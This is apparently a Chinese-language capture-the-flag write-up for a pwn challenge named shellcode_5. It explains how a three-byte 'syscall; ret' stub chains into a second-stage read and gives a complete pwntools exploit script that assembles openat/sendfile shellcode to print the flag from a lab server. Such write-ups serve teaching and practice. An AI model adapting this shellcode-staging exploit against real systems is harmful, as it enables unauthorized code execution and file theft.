



# shellcode_5

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|off   |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |*Unrelated*|

## seccomp rules



## 解题思路

题目上了沙箱，然后允许用户输入 3 个字节的 shellcode 并执行，shellcode 所在段是 `rwx`
权限。用调试器观察开始执行 shellcode 时的环境：



此时如果触发 `syscall` 指令，刚好能执行 `read(0, rcx + 0x100, 0x500)`，并且
`[rsp] == rcx + 0x100`，因此在读入完毕后执行 `ret` 就会跳转到 `rcx + 0x100` 的位置。
显而易见，我们需要输入的 shellcode 是 `syscall; ret;`。之后就是常规的读 flag。

## EXPLOIT

```python
from iced_x86 import (
    BlockEncoder,
    Code,
    Instruction as Instr,
    MemoryOperand,
    Register,
)
from pwn import *
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './shellcode_5'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t, 'xuntil execute\nnextjmp')
    else:
        t = remote('10.1.100.152', 9999)
    elf = ELF(EXE)
    libc = elf.libc

    # send syscall; ret
    t.sendafter(b'code', bytes.fromhex('0f05c3'))
    sleep(0.25)
    instrs = [
        # fd = openat(AT_FDCWD, "flag" /* RSI + 0xf0 */, O_RDONLY)
        Instr.create_reg_reg(Code.XOR_RM32_R32, Register.EAX, Register.EAX),
        Instr.create_reg_i32(Code.SUB_RAX_IMM32, Register.RAX, 100),
        Instr.create_reg_reg(Code.MOV_RM64_R64, Register.RDI, Register.RAX),
        Instr.create_reg_i32(Code.MOV_R32_IMM32, Register.EBX, 0xf0),
        Instr.create_reg_reg(Code.ADD_RM64_R64, Register.RSI, Register.RBX),
        Instr.create_reg_reg(Code.XOR_RM32_R32, Register.EDX, Register.EDX),
        Instr.create_reg_i32(Code.MOV_R32_IMM32, Register.EAX, 0x101),
        Instr.create(Code.SYSCALL),
        # sendfile(1, fd, NULL, 0x50)
        Instr.create_reg_i32(Code.MOV_R32_IMM32, Register.EDI, 1),
        Instr.create_reg_reg(Code.MOV_RM64_R64, Register.RSI, Register.RAX),
        Instr.create_reg_reg(Code.XOR_RM32_R32, Register.EDX, Register.EDX),
        Instr.create_reg_i32(Code.MOV_R32_IMM32, Register.R10D, 0x50),
        Instr.create_reg_i32(Code.MOV_R32_IMM32, Register.EAX, 0x28),
        Instr.create(Code.SYSCALL),
        # exit(0)
        Instr.create_reg_i32(Code.MOV_R32_IMM32, Register.EDI, 0),
        Instr.create_reg_i32(Code.MOV_R32_IMM32, Register.EAX, 60),
        Instr.create(Code.SYSCALL),
    ]
    encoder = BlockEncoder(64)
    encoder.add_many(instrs)
    t.send(encoder.encode(0).ljust(0xf0, b'\0') + b'flag')

    t.recvuntil(b'DASCTF{')
    flag = 'DASCTF{' + t.recvuntil(b'}').decode()
    success(f'Flag is: {flag}')

    t.close()
```


